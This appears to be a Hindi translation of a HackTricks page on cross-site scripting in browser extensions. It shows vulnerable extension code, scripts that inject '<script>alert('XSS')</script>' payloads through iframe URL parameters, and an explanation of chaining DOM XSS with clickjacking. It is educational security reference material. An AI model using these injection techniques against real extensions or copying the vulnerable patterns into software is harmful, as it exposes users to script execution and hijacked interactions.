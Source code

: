 # BrowExt - XSS उदाहरण

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## Iframe पर XSS

**Content script** एक Iframe बनाती है जो एक **URL को iFrame स्रोत के पैरामीटर्स में इंगित करती है**:
```javascript
chrome.storage.local.get("message", result =>
{
frame.src = chrome.runtime.getURL("message.html") +
"?message=" + encodeURIComponent(result.message) +
"&url=https://example.net/explanation";
});
```
एक उजागर html पृष्ठ: **`message.html`**, जो **ब्राउज़र** से सुलभ है, इसमें ऐसा कोड होता है:
```java
$(() =>
{
let params = new URLSearchParams(location.search);
$(document.body).append(params.get("message") + " <button>Explain</button>");
$("body > button").click(() =>
{
chrome.tabs.create({ url: params.get("url") });
});
});
```
दुर्भावनापूर्ण पृष्ठ निम्नलिखित जैसी स्क्रिप्ट को निष्पादित करता है ताकि संदेश को **XSS payload** के लिए बदला जा सके:
```javascript
setTimeout(() =>
{
let frame = document.querySelector("iframe:last-child");
let src = frame.src;

// Remove existing query parameters
src = src.replace(/\?.*/, "");

// Add malicious query parameters
src += "?message=" + encodeURIComponent("<script>alert('XSS')</script>");

// Load into frame
frame.src = src;
}, 1000);
```
एक उदार Content Security Policy जैसे कि&#x20;
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
जेएस कोड के निष्पादन की अनुमति देगा।

XSS को इच्छानुसार ट्रिगर करने का एक और तरीका है चलाना:
```javascript
let frame = document.createElement("iframe");
frame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?message="
+ encodeURIComponent("<script>alert('XSS')</script>");
document.body.appendChild(frame);
```
## DOM-based XSS + ClickJacking

पहली कमजोरी DOM-based Cross-site Scripting (XSS) कमजोरी है **`/html/bookmarks.html`** में, निम्नलिखित संवेदनशील JavaScript है जो शामिल है **`bookmarks.js`** में:
```javascript
$('#btAdd').click(function() {
var btname = $('#txtName').val();
if ($('.custom-button .name').filter(function() {
return $(this).text() === btname;
}).length) return false;

var span = $('<span class="custom-button">');
span.html('<span class="name">' + btname + '</span>');
span.append('<a href="javascript:void(0)" title="remove">x</a>');
span.attr('title', btname);
span.data('id', (new Date().getTime()));
$('div.custom-buttons .existing').append(span);
save_options();
});
```
उपरोक्त JavaScript **`txtName`** टेक्स्ट बॉक्स के **मान** को लेता है और **HTML बनाने के लिए स्ट्रिंग संयोजन का उपयोग करता है** जिसे jQuery के ["append()"](https://api.jquery.com/append/) फ़ंक्शन के माध्यम से DOM में जोड़ा जाता है।

सामान्यतः, Chrome एक्सटेंशन Content Security Policy (CSP) को इस संवेदनशीलता का शोषण होने से रोकना चाहिए। हालांकि, [**'unsafe-eval'**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) के माध्यम से इस नीति को ढीला करने और jQuery के DOM APIs के उपयोग के कारण, इसे अभी भी **शोषण** किया जा सकता था। यह इसलिए है क्योंकि jQuery के DOM APIs में से अधिकांश [“globalEval()”](https://api.jquery.com/jquery.globaleval/) का उपयोग करते हैं, जो स्वचालित रूप से स्क्रिप्ट्स को DOM में जोड़ने पर [“eval()”](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) को पास कर देता है।

यद्यपि यह एक गंभीर संवेदनशीलता है, अपने आप में इसका शोषण काफी सीमित है क्योंकि इसे शोषण करने के लिए **उपयोगकर्ता-संपर्क की आवश्यकता होती है**। पीड़ित को पेज खोलना होगा, फील्ड में Cross-site Scripting (XSS) पेलोड पेस्ट करना होगा, और इसे शोषण करने के लिए "Add" बटन पर क्लिक करना होगा।

इस संवेदनशीलता को बेहतर ढंग से हथियार बनाने के लिए हम एक अलग संवेदनशीलता (**clickjacking**) का उपयोग करते हैं ताकि हमले को मजबूत किया जा सके।

निम्नलिखित Chrome एक्सटेंशन के मैनिफेस्ट से एक अंश है:
```json
...trimmed for brevity...
"web_accessible_resources": [
"_locales/*",
"bundle/*",
"dist/*",
"assets/*",
"font/*",
"html/bookmarks.html",
"css/*.css",
"js/*.js",
"js/jquery/*.js",
"js/lang/*"
],
...trimmed for brevity...
```
उपरोक्त खंड दर्शाता है कि एक्सटेंशन अपनी **`web_accessible_resources`** नीति के साथ व्यापक जाल बिछाता है।

**`/html/bookmarks.html`** पृष्ठ भी **framed** हो सकता है और इस प्रकार **clickjacking** के माध्यम से **exploited** किया जा सकता है। हम इसका दुरुपयोग करते हैं ताकि हम इस पृष्ठ को हमारे वेब पेज में iframe कर सकें, और **DOM तत्वों के साथ फ्रेम को ओवरले करके लेआउट को रीड्रेस करें**। इससे यह होता है कि पीड़ित को यह पता नहीं चलता कि वे **वास्तव में नीचे के एक्सटेंशन के साथ इंटरैक्ट कर रहे हैं**। निम्नलिखित एनीमेशन इस प्रभाव को दर्शाता है (एनीमेशन को [**मूल पोस्ट लेखन**](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/) में देखें)।

## संदर्भ

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
